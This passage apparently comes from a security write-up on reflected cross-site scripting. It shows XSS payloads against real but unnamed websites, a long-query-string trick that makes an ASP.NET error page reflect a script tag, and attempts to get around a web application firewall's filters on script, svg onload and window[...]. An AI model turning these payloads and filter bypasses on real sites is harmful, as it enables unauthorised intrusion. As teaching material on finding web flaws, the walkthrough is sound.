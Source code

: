 ```html
<form name="form1" method="post" action="./elegant.aspx?m=117007&amp;page=%22%3e%3cscript%3ealert(%2fxss%2f)%3c%2fscript%3e" id="form1">
```

Now let's put 2048 `A` characters before our script tag. This time there is a new point of injection at the top of the webpage:  

```html
异常页面： http://victim/page.aspx?m=117007&page=">AAAAAAA---snip---AAAAAAA<script>alert(/xss/)</script>
异常信息： 此请求的查询字符串的长度超过配置的 maxQueryStringLength 值。
信息详情： <pre style='line-height:18px;'>System.Web.HttpException (0x80004005): 此请求的查询字符串的长度超过配置的 maxQueryStringLength 值。
   在 System.Web.HttpRequest.ValidateInputIfRequiredByConfig()
   在 System.Web.HttpApplication.ValidateRequestExecutionStep.System.Web.HttpApplication.IExecutionStep.Execute()
   在 System.Web.HttpApplication.ExecuteStep(IExecutionStep step, Boolean& completedSynchronously)
```

Victory! By putting a large number of characters we triggered an exception that doesn't properly sanitize a debug message.  

Bypass using a new function
---------------------------

Here we have an injection on a Korean website. At first look it is promising as we are able to escape the attribute value and inject some special characters:  

```html
<a class="link_corp btn1" href="/board/?id="></a>zaza"zaza'zaza>"><span>목록</span></a>
```

Unfortunately if we try to put a `script` tag we are rejected:  

```
The requested URL was rejected. Please consult with your administrator.

The requested URL was: http://victim/view?id=%22%3E%3C%2Fa%3E%3Cscript%3Ealert(%27xss%27)%3C/script%3E&no=3070%2F

Your IP-address: ---snip---
Your support ID is: ---snip---
```

Let's try a different payload: 
```html
<svg/onload%3dalert(/xss/)>
```
... rejected too.  

But if we replace `alert` for a non-existing function (like `zaza`) the code gets reflected. We may want to use the `window` object and pass it an obfuscated `alert` value, but it seems `window` is blacklisted too as the following payload is rejected:  

```html
<svg onload=window['zaza'])>
```

Really ? No, in fact the website seems to have some kind of regex like 
```
window\[.*\]
```

